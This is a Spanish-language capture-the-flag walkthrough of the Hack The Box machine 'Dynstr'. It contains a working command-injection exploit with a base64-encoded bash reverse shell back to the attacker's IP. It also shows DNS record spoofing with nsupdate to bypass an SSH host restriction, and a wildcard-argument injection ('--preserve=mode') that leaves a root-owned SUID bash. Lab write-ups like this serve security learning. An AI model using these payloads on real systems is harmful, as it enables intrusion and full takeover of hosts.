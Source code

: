 ```yaml
---
title: Dynstr
date: 2023-04-05 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.92 scan initiated Wed Apr  5 18:38:32 2023 as: nmap -sCV -p22,53,80 -oN targeted 10.10.10.244
Nmap scan report for 10.10.10.244
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr  5 18:38:47 2023 -- 1 IP address (1 host up) scanned in 15.75 seconds
```
![imagen1](/assets/images/Dynastr/dynstr1.png)

Vemos un sitio web donde nos ofrecen la creación de DNS dinámicos, en uno de sus apartados menciona que utiliza la misma apí que no-ip.com y no da unas credenciales para autenticarnos a esta. Para esto podemos buscar cómo se debe hacer la solicitud para realizar dicha creación.

```shell
❯ curl -s -X PUT 'http://10.10.10.244/nic/update?hostname=dnsalias.htb&myip=10.10.14.22' -u dynadns:sndanyd
911 [wrngdom: htb]

❯ curl -s -X PUT 'http://10.10.10.244/nic/update?hostname=test.dnsalias.htb&myip=10.10.14.22' -u dynadns:sndanyd
good 10.10.14.22

❯ curl -s -X PUT "http://10.10.10.244/nic/update?hostname=-test.dnsalias.htb&myip=10.10.14.22" -u dynadns:sndanyd
911 [nsupdate failed]
```
Encontramos que haciéndo la solicitud adecuada nos regresa un good y nuestra ip pero sino nos marca un error de dominio incorrecto, pero cuando le agregamos un caracter especial nos muestra que por detraás está haciendo esa modificacon de DNS con `nsupdate`. Probando unos cuentas inyecciones encontramos que tenemos ejecución remota de comandos.

```shell
❯ curl -s -X PUT "http://10.10.10.244/nic/update?hostname=%60echo+'cGluZyAtYyAyIDEwLjEwLjE0LjIy'|base64+-d|bash%60test.dnsalias.htb&myip=10.10.14.22" -u dynadns:sndanyd

❯ sudo tcpdump -i tun0 icmp -n
[sudo] password for guero: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:54:26.674882 IP 10.10.10.244 > 10.10.14.22: ICMP echo request, id 1, seq 1, length 64
19:54:26.674895 IP 10.10.14.22 > 10.10.10.244: ICMP echo reply, id 1, seq 1, length 64
19:54:27.684378 IP 10.10.10.244 > 10.10.14.22: ICMP echo request, id 1, seq 2, length 64
19:54:27.684404 IP 10.10.14.22 > 10.10.10.244: ICMP echo reply, id 1, seq 2, length 64
<SNIP>
```
Ahora haciendo muchas pruebas pudimos obtener una conexión con el siguiente comando.

```shell
❯ curl -s -X PUT "http://10.10.10.244/nic/update?hostname=%60echo%20-n%20\"YmFzaCAtYyAiYmFzaCAtaSA%2bJi9kZXYvdGNwLzEwLjEwLjE0LjIyLzQ0MyAwPiYxIg==\"|base64%20-d|%20bash%60test.dnsalias.htb&myip=10.10.14.22" -u dynadns:sndanyd
```
Dentro insepccionando el directorio del usuario bindmgr encontramos unos archivos de logs sobre ssh y ahí nos encontramos una clave privada, procedemos a copiarla, tratarla y al tratar de logearnos por ssh no deniega. Insepccionando el archivo authorized keys encontramos los siguiente.

```shell
www-data@dynstr:/home/bindmgr/.ssh$ cat authorized_keys 
from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1Bq<SNIP>
```
Esto indica que está esperando algún DNS con infra.dyna.htb, con ayuda de nsupdate podemos configurar un DNS para que apunte a nuestra ip y así poder logearnos.

```shell
nsupdate -k /etc/bind/infra.key
update add test.infra.dyna.htb 86400 A 10.10.14.22
update add 12.14.10.10.in-addr.arpa 300 PTR test.infra.dyna.htb
send
```
Con esto podremos logearnos por ssh satisfactoriamente.

```shell
❯ ssh -i id_rsa bindmgr@10.10.10.244
Last login: Tue Jun  8 19:19:17 2021 from 6146f0a384024b2d9898129ccfee3408.infra.dyna.htb
bindmgr@dynstr:~$ whoami
bindmgr
```
En este punto tenemos permisos de sudo al archivo bindmgr.sh.

```shell
bindmgr@dynstr:/etc/bind$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```
Este es el siguiente script.

```shell
#!/usr/bin/bash

# This script generates named.conf.bindmgr to workaround the problem
# that bind/named can only include single files but no directories.
#
# It creates a named.conf.bindmgr file in /etc/bind that can be included
# from named.conf.local (or others) and will include all files from the
# directory /etc/bin/named.bindmgr.
#
# NOTE: The script is work in progress. For now bind is not including
#       named.conf.bindmgr. 
#
# TODO: Currently the script is only adding files to the directory but
#       not deleting them. As we generate the list of files to be included
#       from the source directory they won't be included anyway.

BINDMGR_CONF=/etc/bind/named.conf.bindmgr
BINDMGR_DIR=/etc/bind/named.bindmgr

indent() { sed 's/^/    /'; }

# Check versioning (.version)
echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
fi
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi

# Create config file that includes all files from named.bindmgr.
echo "[+] Creating $BINDMGR_CONF file."
printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
for file in * ; do
    printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
done

# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/

# Check generated configuration with named-checkconf.
echo "[+] Checking staged configuration."
named-checkconf $BINDMGR_CONF >/dev/null
if [[ $? -ne 0 ]] ; then
    echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
    named-checkconf $BINDMGR_CONF 2>&1 | indent
    exit 44
else 
    echo "[+] Configuration successfully staged."
    # *** TODO *** Uncomment restart once we are live.
    # systemctl restart bind9
    if [[ $? -ne 0 ]] ; then
        echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
	systemctl status bind9
    else
	echo "[+] Restart of bind9 via systemctl succeeded."
    fi
fi
```
La vulnerabilidad recae sobre que intentar copiar todos los archivos por tener el wildcard después de version.

```shell
cp /bin/bash .
chmod u+s bash
touch -- '--preserve=mode'
```
```shell
bindmgr@dynstr:/tmp/privesc$ ls
 bash  '--preserve=mode'
bindmgr@dynstr:/tmp/privesc$ echo 50 > .version
bindmgr@dynstr:/tmp/privesc$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/privesc.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```

Así podemos hacer la bash suid y ser root.

```shell
bindmgr@dynstr:/etc/bind/named.bindmgr$ ls -la
total 1168
drwxr-sr-x 2 root bind    4096 Apr  6 06:51 .
drwxr-sr-x 3 root bind    4096 Apr  6 06:51 ..
-rwsr-xr-x 1 root bind 1183448 Apr  6 06:51 bash
-rw-rw-r-- 1 root bind       3 Apr  6 06:51 .version
```
